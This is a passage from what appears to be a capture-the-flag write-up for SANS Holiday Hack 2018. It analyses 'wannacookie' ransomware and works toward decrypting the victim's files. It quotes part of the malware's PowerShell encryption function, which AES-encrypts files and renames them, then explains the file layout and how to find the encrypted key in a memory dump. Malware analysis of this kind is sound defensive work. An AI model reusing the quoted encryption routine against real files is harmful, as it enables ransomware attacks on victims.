 ``` powershell
function EncryptDecryptFile ($key,$File,$enc_it) {
    [byte[]]$key = $key
    $Suffix = "`.wannacookie"
    [System.Reflection.Assembly]::LoadWithPartialName('System.Security.Cryptography')
    [System.Int32]$KeySize = $key.Length * 8
    $AESP = New-Object 'System.Security.Cryptography.AesManaged'
    $AESP.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $AESP.BlockSize = 128
    $AESP.KeySize = $KeySize
    $AESP.Key = $key
    $FileSR = New-Object System.IO.FileStream ($File,[System.IO.FileMode]::Open)
    if ($enc_it) {
        $DestFile = $File + $Suffix 
    } else {
        $DestFile = ($File -replace $Suffix) 
    }
    $FileSW = New-Object System.IO.FileStream ($DestFile,[System.IO.FileMode]::Create)
    if ($enc_it) {
        # generate IV - 16 bytes
        $AESP.GenerateIV()
        # write length of IV (16 or 10 00 00 00) to file
        $FileSW.Write([System.BitConverter]::GetBytes($AESP.IV.Length),0,4)
        # write IV to file
        $FileSW.Write($AESP.IV,0,$AESP.IV.Length)
        $Transform = $AESP.CreateEncryptor() 
    } else {
    // removed
}
```

It uses AES-CBC to encrypt the files. But it stores some data at the beginning of the files:

* First four bytes contain the length of IV in big-endian. For AES it's always 16 (0x10).
* Next n bytes are the IV (where n is the length from the first four bytes).
* Finally, the encrypted file.

### Decrypting the Vault
We have the private key, now we need to use it to decrypt the encrypted AES key.

I have created a Go program called `decrypt.go` that does it. It's looking for hardcoded files because creating something that reads values from the command line was useless in this exercise.

* https://github.com/parsiya/Parsia-Code/blob/master/sans-holidayhack-2018/decrypt.go

How can we find the encrypted AES key?

In the memory dump search for hex encoded bytes of size 512 (that is the size of a padded RSA encrypted 16-byte payload):

* `matches "^[a-fA-F0-9]+$"`
* `len == 512`

And we have one match:

